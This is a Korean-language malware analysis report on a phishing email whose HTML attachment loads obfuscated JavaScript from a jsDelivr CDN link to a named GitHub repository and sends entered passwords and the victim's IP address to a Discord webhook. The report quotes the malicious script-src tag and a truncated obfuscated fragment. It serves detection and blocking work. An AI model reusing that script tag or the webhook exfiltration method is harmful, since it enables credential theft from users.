 # 2025-03-18 EX 미탐 분석 보고서

## 악성 행위 분석 결과 보고서

---

### □ 악성 메일의 특징

- 디스코드 메신저의 **Discord Webhook API**를 이용하여 사용자의 정보를 탈취하는 형태로 판단됨.

---

### □ 악성 메일의 행위

#### ▸ HTML 첨부파일 확인

- 첨부된 파일은 로컬에서 실행되는 HTML 파일.
- **JavaScript 소스코드가 포함된 ASCII 텍스트 파일**로 확인됨.

#### ▸ 외부 URL 존재

- **JSdelivr CDN**에서 로드되는 JavaScript 파일 포함:
  
  ```
  https://cdn.jsdelivr.net/gh/fridaybella2404/animalcare-reserves@main/...
  ```

- 해당 리포지토리:
  
  [https://github.com/fridaybella2404/animalcare-reserves](https://github.com/fridaybella2404/animalcare-reserves)

---

### □ 주요 코드 및 행위

#### ▸ 난독화된 JavaScript 코드 포함

```html
<script>
    (function(_0x37f612,_0x3f6271){var _0x528dc7={_0x219712:0x12f,...
</script>
```

#### ▸ 특정 이메일 주소 포함

```javascript
<script>
    const oliveOil = "test@gmail.com"
</script>
```

#### ▸ 외부 스크립트 로드

```html
<script src="https://cdn.jsdelivr.net/gh/fridaybella2404/animalcare-reserves@main/1a3f7e9b...js"></script>
```

- 외부 JS 코드가 HTML 문서에 삽입되어 실행됨.
- 난독화, `document.write`, base64 인코딩된 CSS 포함.

---

### □ 의심 행위 흐름

1. **사용자 이메일 첨부파일 실행**
2. **비밀번호 입력 시 외부 통신 발생**
   - 공용 IP 주소를 반환하는 API 호출
   - 이후 **Discord Webhook URL**로 민감 정보 전송

---

### □ 결론

- 본 이메일은 **Discord Webhook을 활용한 피싱 및 민감 정보 탈취형 악성 메일**로 판단됨.
- **난독화 및 외부 스크립트 로드 기법**을 활용하여 탐지를 회피하며 사용자 행위를 유도함.
- 향후 **Webhook URL 기반 차단** 및 **CDN 연계형 악성 행위 탐지 룰 강화** 필요.
